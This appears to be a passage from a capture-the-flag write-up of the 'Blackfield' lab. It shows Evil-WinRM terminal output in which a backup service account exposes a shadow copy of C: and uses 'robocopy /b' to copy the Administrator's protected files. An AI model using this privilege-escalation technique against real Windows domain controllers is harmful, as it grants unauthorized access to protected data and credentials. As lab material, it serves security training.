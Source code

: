 ```shell
Inserted file WM1.xml into .cab file meta.cab
Inserted file WM2.xml into .cab file meta.cab
Inserted file WM3.xml into .cab file meta.cab
Inserted file WM4.xml into .cab file meta.cab
Inserted file WM5.xml into .cab file meta.cab
Inserted file WM6.xml into .cab file meta.cab
Inserted file WM7.xml into .cab file meta.cab
Inserted file WM8.xml into .cab file meta.cab
Inserted file WM9.xml into .cab file meta.cab
Inserted file WM10.xml into .cab file meta.cab
Inserted file Dis598D.tmp into .cab file meta.cab

Querying all shadow copies with the shadow copy set ID {8be740bc-ae10-4869-8c95-f8a084cf50d3}

        * Shadow copy ID = {10c53d13-aa53-4359-9b2c-75879f4a57e1}               %cdrive%
                - Shadow copy set: {8be740bc-ae10-4869-8c95-f8a084cf50d3}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 2/26/2023 8:43:31 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent Differential

Number of shadow copies listed: 1
-> expose %cdrive% E:
-> %cdrive% = {10c53d13-aa53-4359-9b2c-75879f4a57e1}
The shadow copy was successfully exposed as E:\.
-> end backup
->
*Evil-WinRM* PS C:\Users\svc_backup\Documents> E:
*Evil-WinRM* PS E:\> dir


    Directory: E:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        5/26/2020   5:38 PM                PerfLogs
d-----         6/3/2020   9:47 AM                profiles
d-r---        3/19/2020  11:08 AM                Program Files
d-----         2/1/2020  11:05 AM                Program Files (x86)
d-r---        2/23/2020   9:16 AM                Users
d-----        9/21/2020   4:29 PM                Windows
-a----        2/28/2020   4:36 PM            447 notes.txt


*Evil-WinRM* PS E:\> cd C:\Users\svc_backup\Documents

*Evil-WinRM* PS C:\Users\svc_backup\Documents> robocopy /b E:\Users\Administrator\Desktop\root.txt . robots.txt

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Sunday, February 26, 2023 8:50:13 PM
   Source : E:\Users\Administrator\Desktop\root.txt\
     Dest : C:\Users\svc_backup\Documents\

```